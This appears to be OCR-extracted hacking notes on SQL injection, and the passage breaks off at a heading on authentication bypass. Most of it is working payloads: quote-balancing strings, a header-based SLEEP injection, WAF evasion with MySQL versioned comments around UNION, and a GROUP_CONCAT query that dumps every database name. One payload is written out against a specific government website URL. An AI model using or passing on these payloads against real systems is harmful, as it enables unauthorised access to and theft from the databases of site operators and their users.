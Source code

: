 
' and 'x'='x

select login='test/test'  and 'x'='x   ' where something other part of query 


-------------------------------------------
Header Based sqli 

balnace query 

' --

' and 'a'='a



select referrer='value ' OR SLEEP(5) and 'a'='a ' somethingother part of query 


-------------------------------------------

waf bypassing 

earlier i tried 

' order by 1 --+


when i tried 

' union all select 1,2,3,4,5,6,7 --+

i got not acceptable error 

either union may be illegal keyword 

may be all will be illegal input 

select 

illegal word (word)= /*!12345word*/

' /*!12345union*/ all select 1,2,3 --+

http://multan.gov.pk/page.php?data=-2' /*!12345union*/ all select 1,2,database(),4,5,6,7 --+

now exploit this 
all database list

hackbar->union->database->group_concat 
on any reflect no 

(SELECT+GROUP_CONCAT(schema_name+SEPARATOR+0x3c62723e)+FROM+INFORMATION_SCHEMA.SCHEMATA)



' /*!12345union*/ all select 1,2,(SELECT+/*!12345GROUP_CONCAT*/(schema_name+SEPARATOR+0x3c62723e)+FROM+INFORMATION_SCHEMA.SCHEMATA),4,5,6,7 --+



--------------------------------------------
Authentication Bypasing through SQLI 

lets assuem background of login page 
